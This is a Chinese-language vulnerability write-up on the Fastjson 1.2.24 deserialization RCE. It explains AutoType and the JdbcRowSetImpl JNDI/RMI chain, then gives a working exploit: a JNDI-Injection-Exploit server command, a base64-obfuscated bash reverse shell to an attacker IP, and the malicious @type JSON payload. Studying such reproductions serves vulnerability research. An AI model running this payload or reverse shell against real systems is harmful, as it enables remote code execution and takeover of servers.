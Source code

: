 # Fastjson 1.2.24 RCE

<br>

-------------------------------

## 环境

<br>

**JDK&java**：1.8

**依赖**：fastjson1.2.24




## 写在前面

<br>

后续会更新相应的利用到[54huarui/fastjsonfileread-test-exp](https://github.com/54huarui/fastjsonfileread-test-exp)

参考/致谢 ：

[www.cnblogs.com/EddieMurphy-blogs](https://www.cnblogs.com/EddieMurphy-blogs/p/18064168)

<br>

---------------------------

## 关于Fastjson

<br>

Fastjson 的反序列化是指将 JSON 格式的字符串转换为 Java 对象的过程。它通过   JSON.parseObject()   方法实现，支持将 JSON 数据映射到 Java 的普通类、集合、映射等多种数据结构


解析Fastjson 内部使用一个解析器（ DefaultJSONParser ）将 JSON 字符串分解为一个个字段。解析器会逐字符读取 JSON 数据，识别出键值对、数组、嵌套对象等结构。

Fastjson 根据目标类的类型信息，通过反射机制加载对应的 Java 类。如果 JSON 数据中包含   @type   字段，Fastjson 会根据   @type   的值动态加载指定的类。例如：

````

{"@type": "com.example.User", "name": "John", "age": 30}

````

在反序列化时，Fastjson 会加载   com.example.User   类，并创建其实例。



fastjson在序列化以及反序列化的过程中并没有使用Java自带的序列化机制，而是自定义了一套机制。其实，对于JSON框架来说，想要把一个Java对象转换成字符串，可以有两种选择：

1.基于setter/getter

2.基于属性（AutoType）

基于setter/getter会带来什么问题呢，下面举个例子，假设有如下两个类：

````
class Apple implements Fruit {
    private Big_Decimal price;
    //省略 setter/getter、toString等
}
````

````
class iphone implements Fruit {
    private Big_Decimal price;
    //省略 setter/getter、toString等
}
````
实例化对象之后，假设苹果对象的price为0.5，Apple类对象序列化为json格式后为：
````
{"Fruit":{"price":0.5}}
````
假设iphone对象的price为5000,序列化为json格式后为：
````
{"Fruit":{"price":5000}}
````
当一个类只有一个接口的时候，将这个类的对象序列化的时候，就会将子类抹去（apple/iphone）只保留接口的类型(Fruit)，最后导致反序列化时无法得到原始类型。本例中，将两个json再反序列化生成java对象的时候，无法区分原始类是apple还是iphone。

为了解决上述问题： fastjson引入了基于属性（AutoType），即在序列化的时候，先把原始类型记录下来。使用@type的键记录原始类型，在本例中，引入AutoType后，Apple类对象序列化为json格式后为：
````
{ "fruit":{ "@type":"com.hollis.lab.fastjson.test.Apple", "price":0.5 } }
````
引入AutoType后，iphone类对象序列化为json格式后为：
````
{ "fruit":{ "@type":"com.hollis.lab.fastjson.test.iphone", "price":5000 } }
````
这样在反序列化的时候就可以区分原始的类了。


 

使用AutoType功能进行序列号的JSON字符会带有一个@type来标记其字符的原始类型，在反序列化的时候会读取这个@type，来试图把JSON内容反序列化到对象，并且会调用这个库的setter或者getter方法，然而，@type的类有可能被恶意构造，只需要合理构造一个JSON，使用@type指定一个想要的攻击类库就可以实现攻击。

常见的有sun官方提供的一个类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法支持传入一个rmi的源，只要解析其中的url就会支持远程调用！因此整个漏洞复现的原理过程就是：

````
1、攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。
2、存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，靶机服务器就会向rmi服务器请求待执行的命令。也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？
3、rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell啥的）
4、rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。
靶机服务器执行了恶意代码，被攻击者成功利用。
````

<br>

## 利用

<br>

用JNDI-Injection-Exploit起一个恶意服务器。

<br>

````
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ldap://26.119.104.107:1389/1eod9x
" -a 172.27.112.1
````

命令执行为

````
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjcuMTEyLjEvMjMxNzIgMD4mMQ==}|{base64,-d}|{bash,-i}
````

<br>

<img src="https://54huarui.github.io/blogs/fastjson2/1.png" width="880" height="480">

<br>

然后将得到的ldap地址通过com.sun.rowset.JdbcRowSetImpl的

<br>

````

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"payload",
        "autoCommit":true
    }
}
````

<img src="https://54huarui.github.io/blogs/fastjson2/2.png" width="880" height="480">


<br>

## 简要说明

<br>

当JSON字符带有一个@type来标记时，反序列化过程中@type会自动加载那个类的set和get方法

所以这个bug就是利用了这个特性去触发了com.sun.rowset.JdbcRowSetImpl中的getdataSourceName方法。这个方法可以加载rmi url达成加载我们的恶意类的目的